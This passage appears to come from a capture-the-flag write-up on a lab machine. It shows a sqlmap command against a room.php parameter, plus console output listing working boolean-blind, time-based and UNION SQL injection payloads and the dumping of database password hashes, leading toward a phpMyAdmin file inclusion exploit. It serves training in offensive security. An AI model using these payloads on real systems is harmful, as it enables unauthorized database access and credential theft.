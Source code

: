 ## Initial Foothold

In order to exploit the local file inclusion vulnerability ([CVE-2018-12613](https://nvd.nist.gov/vuln/detail/CVE-2018-12613)) on the version of phpmyadmin running, which can lead to remote code execution, we need to get some login credentials.


### sqlmap
Attempting SQL injection manually through the url bar didn't get us very far. In this instance we turn to sqlmap to do the work for us (feel like script kiddie?). Below is the output for having sqlmap dump the output of the usernames and passwords it can find. 

**Note**: It should be noted that these were cached already because I first ran sqlmap with the `-a` flag.

```console
root@kali:~# sqlmap -u 'http://10.10.10.143/room.php?cod=5' --users --passwords
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.6#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:56:36 /2019-07-22/

[11:56:36] [INFO] resuming back-end DBMS 'mysql' 
[11:56:36] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=5 AND 9234=9234

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=5 AND (SELECT 8600 FROM (SELECT(SLEEP(5)))FUdN)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-1326 UNION ALL SELECT NULL,CONCAT(0x716a716a71,0x67666f747663416d57796c4c674d574841464b6e62774362465953737151417651536f7a526e526e,0x7170787871),NULL,NULL,NULL,NULL,NULL-- rAJB
---
[11:56:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[11:56:37] [INFO] fetching database users
[11:56:37] [INFO] used SQL query returns 28 entries
database management system users [1]:                                                 
[*] 'DBadmin'@'localhost'

[11:56:37] [INFO] fetching database users password hashes
[11:56:37] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[11:56:41] [INFO] writing hashes to a temporary file '/tmp/sqlmapgPiv8o5143/sqlmaphashes-NceIbU.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
```